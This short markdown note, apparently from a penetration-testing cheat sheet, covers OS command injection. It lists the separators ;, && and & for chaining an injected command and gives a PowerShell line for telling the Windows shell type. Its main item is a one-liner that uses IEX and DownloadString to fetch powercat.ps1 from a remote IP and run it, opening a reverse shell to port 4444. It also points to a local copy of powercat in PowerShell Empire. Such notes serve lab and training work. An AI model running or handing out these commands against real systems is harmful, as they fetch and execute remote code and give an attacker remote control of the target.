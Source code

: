 
## OS Command Injection


Many times web application needs to interact to OS and developers directly takes users input, sanitize it and prepare it to interact with OS.
This can lead to security issues of OS command injection.


Note: we can use `;`, `&&`, `&` to pass other command after command if required. There could be a more way


```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
This cmd can be useful to identify shell type in windows


For downloading file in PowerShell
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```


we have powercat implementation of nc in 
```
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1
```
